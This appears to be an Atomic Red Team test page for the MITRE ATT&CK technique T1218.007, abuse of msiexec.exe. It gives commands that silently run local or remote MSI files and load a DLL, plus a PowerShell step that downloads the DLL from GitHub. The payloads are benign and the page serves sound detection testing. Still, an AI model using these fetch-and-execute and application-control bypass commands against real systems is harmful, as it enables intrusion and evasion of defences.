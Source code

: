 # T1218.007 - Msiexec
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/007)
<blockquote>Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).(Citation: Microsoft msiexec) Msiexec.exe is digitally signed by Microsoft.

Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.(Citation: LOLBAS Msiexec)(Citation: TrendMicro Msiexec Feb 2018) Since it is signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse. Msiexec.exe execution may also be elevated to SYSTEM privileges if the <code>AlwaysInstallElevated</code> policy is enabled.(Citation: Microsoft AlwaysInstallElevated 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Msiexec.exe - Execute Local MSI file](#atomic-test-1---msiexecexe---execute-local-msi-file)

- [Atomic Test #2 - Msiexec.exe - Execute Remote MSI file](#atomic-test-2---msiexecexe---execute-remote-msi-file)

- [Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL](#atomic-test-3---msiexecexe---execute-arbitrary-dll)


<br/>

## Atomic Test #1 - Msiexec.exe - Execute Local MSI file

auto_generated_guid: 0683e8f7-a27b-4b62-b7ab-dc7d4fed1df8

Execute arbitrary MSI file. Commonly seen in application installation. The MSI opens notepad.exe when sucessfully executed.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;Win32&#92;T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.msi must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{msi_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own MSI"
```




<br/>
<br/>

## Atomic Test #2 - Msiexec.exe - Execute Remote MSI file

auto_generated_guid: bde7d2fe-d049-458d-a362-abda32a7e649

Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI opens notepad.exe when sucessfully executed.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | String | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/Win32/T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```






<br/>
<br/>

## Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL

auto_generated_guid: 66f64bd5-7c35-4c24-953a-04ca30a0a0ec

Execute arbitrary DLL file stored locally. Commonly seen in application installation.
Upon execution, a window titled "Boom!" will open that says "Locked and Loaded!". For 32 bit systems change the dll_payload argument to the Win32 folder.
By default, if the src folder is not in place, it will download the 64 bit version.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;x64&#92;T1218.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
